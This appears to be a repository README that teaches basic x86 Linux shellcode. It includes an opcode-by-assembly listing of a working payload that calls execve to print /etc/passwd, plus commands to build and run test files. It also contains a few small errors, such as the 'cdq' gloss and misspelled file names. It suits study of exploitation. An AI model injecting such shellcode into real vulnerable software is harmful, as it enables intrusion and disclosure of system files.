 <h1>Shellcode Basic</h1>
<hr>
<p>Shellcode is machine code that when executed spawns a shell Not all "Shellcode" spawns a shell.Shellcode is a list of machine code instructions which are developed in a manner that allows it to be injected in a vulnerable application during its runtime.Injecting Shellcode in an application is done by exploiting various security holes in an application like buffer overflows, which are the most popular ones.You cannot access any values through static addresses because these addresses will not be static in the program that is executing your Shellcode. But this is not applicable to environment variable.While creating a shell code always use the smallest part of a register to avoid null string.A Shellcode must not contain null string since null string is a delimiter.Anything after null string is ignored during execution.That’s a brief about
Shellcode</p>
<b>Methods for generating Shellcode<b/>
<li>1. Write the shellcode  directly in hex code.</li>
<li>2.Write the assembly instructions, and then extract the opcodes to generate the shellcode.</li>
<li>3. Write in C, extract assembly instructions and then  the opcodes and finally generate the shellcode.</li>

<b>Hex-Opcodes             Assembly instruction</b>
<ul>
<li>"\x31\xc0"                                           xorl    %eax,%eax    </li>   
 <li> "\x99"                                            cdq== movl eax edx  </li>   
 <li> "\x52"                                              push edx                    </li>
 <li> "\x68\x2f\x63\x61\x74"                pushl 0x7461632f  </li>
 <li>"\x68\x2f\x62\x69\x6e"                pushl 0x6e69622f </li>
<li> "\x89\xe3"                                         mov ebx,esp   </li>
<li> "\x52"                                             push edx      </li>
<li>"\x68\x73\x73\x77\x64"                  pushl 0x64777373 </li>  
<li>"\x68\x2f\x2f\x70\x61"                pushl  0x61702f2f  </li>
<li>"\x68\x2f\x65\x74\x63"               pushl 0x6374652f </li>
<li>"\x89\xe1"                                       mov ecx,esp  </li>
<li>"\xb0\x0b"                                     mov  $0xb,%al            </li>                  
<li>"\x52"                                             push edx </li>
<li>"\x51"                                              push ecx </li>
<li>"\x53"                                             push ebx </li>
<li>"\x89\xe1"                                      mov ecx,esp   </li>
 <li>"\xcd\x80" ;                                    int 80h    </li>

<hr>
<p>In this repo/file there are three files:<br>
1.list.c ---->> which just calls execve to list all root files<br>
2. testshellcode.c ---->> Assembly language shellcode syntax embedded in c that is above Hex-opcodes <--> Assembly instructions.<br>
$ gcc -static -g -o testshellcode testshelcode.c <br>
$ ./testshellcod<br>
3.testshellcode.asm ---->> pure asm shellcode.<br>
$ nasm -f elf testshellcode.asm <br>
$ ld testshellcode.o -o testshellcode <br>
$ ./testshellcode<br>
</p>
These Three files will give you the same result.



